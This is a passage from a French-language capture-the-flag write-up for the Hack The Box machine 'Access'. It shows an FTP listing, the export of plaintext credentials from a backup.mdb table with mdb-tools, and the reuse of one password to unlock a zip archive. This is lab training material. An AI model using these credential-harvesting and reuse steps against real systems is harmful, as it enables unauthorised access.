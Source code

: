 ```bash
250 CWD command successful.
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> ^D
221 Goodbye.
```

### backup.mdb and Access Control.zip
En analysant les tables disponibles dans le fichier backup.mdb, on trouve la table "auth_user" qui contient un champs PASSWORD potentiellement intéressant.
```bash
┌──(kali㉿kali)-[~/htb/Access]
└─$ mdb-schema backup.mdb | grep -i PASSWORD -A30 -B30
...
CREATE TABLE [auth_user]
 (
        [id]                    Long Integer, 
        [username]                      Text (50), 
        [password]                      Text (50), 
        [Status]                        Long Integer, 
        [last_login]                    DateTime, 
        [RoleID]                        Long Integer, 
        [Remark]                        Memo/Hyperlink (255)
);
...
```
On extrait la table auth_user et on récupère 3 credentials user/password. 
```bash
┌──(kali㉿kali)-[~/htb/Access]
└─$ mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

En ftp et telnet, aucun ne fonctionne. Cependant, en utilisant le mot de passe "access4u@security" sur le fichier "Access Control.zip", l'archive se décompresse correctement !
```bash
┌──(kali㉿kali)-[~/htb/Access]
└─$ 7z x Access\ Control.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:3 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed): <<<<<<<<<<<<<<<< access4u@security
Everything is Ok

Size:       271360
Compressed: 10870
                                                     
```